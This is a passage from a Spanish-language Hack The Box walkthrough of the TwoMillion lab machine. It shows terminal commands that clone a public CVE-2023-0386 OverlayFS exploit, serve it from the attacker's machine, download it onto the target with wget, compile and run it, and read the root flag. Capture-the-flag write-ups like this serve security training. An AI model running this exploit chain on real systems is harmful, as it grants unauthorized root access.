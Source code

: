 <https://nvd.nist.gov/vuln/detail/CVE-2023-0386>

```terminal

/home/kali/Documents/htb/machines/twomillion:-$ git clone https://github.com/sxlmnwb/CVE-2023-0386?source=post_page-----1b06035e0b99--------------------------------
/home/kali/Documents/htb/machines/twomillion:-$ tar -cjvf CVE-2023-0386.tar.bz2 CVE-2023-0386/

/home/kali/Documents/htb/machines/twomillion:-$ python3 -m http.server
	Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

admin@2million:~$ wget 10.10.16.92:8000/CVE-2023-0386.tar.bz2
‘CVE-2023-0386.tar.bz2’ saved [29763/29763]

	...10.10.11.221 - - [18/Jul/2024 14:47:51] "GET /CVE-2023-0386.tar.bz2 HTTP/1.1" 200 -
```
```terminal
admin@2million:~$ tar -xjvf CVE-2023-0386.tar.bz2

admin@2million:~/CVE-2023-0386$ make all
```
Segun las instrucciones del PoC, primero corro el siguiente comando.

```terminal
admin@2million:~/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc
```
Y en otra terminal, paso el siguiente comando.
```terminal
admin@2million:~/CVE-2023-0386$ ./exp

root@2million:~/CVE-2023-0386# cat /root/root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/547" target="_blank">***Litio7 has successfully solved Twomillion from Hack The Box***</a>
{: .prompt-info style="text-align:center" }
